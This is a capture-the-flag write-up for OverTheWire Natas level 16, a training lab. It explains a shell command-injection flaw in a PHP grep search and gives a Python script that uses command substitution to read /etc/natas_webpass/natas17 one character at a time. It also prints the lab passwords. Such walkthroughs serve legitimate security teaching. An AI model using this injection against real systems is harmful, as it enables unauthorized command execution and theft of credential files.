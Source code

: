 # Level 16

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas16.natas.labs.overthewire.org](http://natas16.natas.labs.overthewire.org)
- username: `natas16`
- password: `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`

## Solution

![start](./start.jpg)

Let's see the source code:

```php
...
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
...
```

So our target command is `grep -i \"$key\" dictionary.txt`. Our `$key` is inside quotes, so we can use [Command Substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html) to execute our command. Once we can see only the output from `dictionary.txt`, we can manipulate the command in following way:

```
grep -i "$(grep ^OUR_CHARACTER(S) /etc/natas_webpass/natas17)" dictionary.txt
```

We can use output of our inserted `grep` command to see if `/etc/natas_webpass/natas17` starts with `OUR_CHARACTER(S)` *(`^` symbol defines start position, more about it [here](https://support.workiva.com/hc/en-us/articles/4407304269204-Regular-expression-operators))*. If it really starts with `OUR_CHARACTER(S)`, the full password will be returned and for sure the output from searching it in `dictionary.txt` will be empty, as `dictionary.txt` doesn't contain the password. So we can use `python` script to bruteforce the password by entering each character one by one, and if the output of search query is empty, then the character is on the right position:

```py
import requests

# Base URL and endpoint of the target site
url = 'http://natas16.natas.labs.overthewire.org/index.php'

# Characters to test in the password
characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

# Store the successfully found password
found_password = ''

# Function to make a GET request and check if the character is correct
def check_character(current_password):

    # Headers including content type and manually added Authorization header
    headers = {
        'Authorization': 'Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg==',
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7',
        'Connection': 'close',
        'Cache-Control': 'max-age=0',
        'Origin': 'http://natas16.natas.labs.overthewire.org',
        'Referer': 'http://natas16.natas.labs.overthewire.org/',
        'Upgrade-Insecure-Requests': '1'
    }

    # Make the GET request
    response = requests.get(url + '?needle=$(grep ^' + current_password + ' /etc/natas_webpass/natas17)', headers=headers)
    # print(payload)
    # print(response.status_code, response.reason)  # Print status for debugging
    return not "African" in response.text

# Brute force the password character by character
for i in range(50):  # assumption max 50 characters
    found_this_iteration = False  # Flag to check if we found at least one character in this iteration
    for char in characters:
        test_password = found_password + char
        if check_character(test_password):
            found_password += char
            print(f'Found so far: {found_password}')
            found_this_iteration = True
            break
    if not found_this_iteration:
        print("No further characters found. Ending search.")
        break

print(f'Complete password: {found_password}')
```

## Password

`natas17`:`XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`

*Created by [bu19akov](https://github.com/bu19akov)*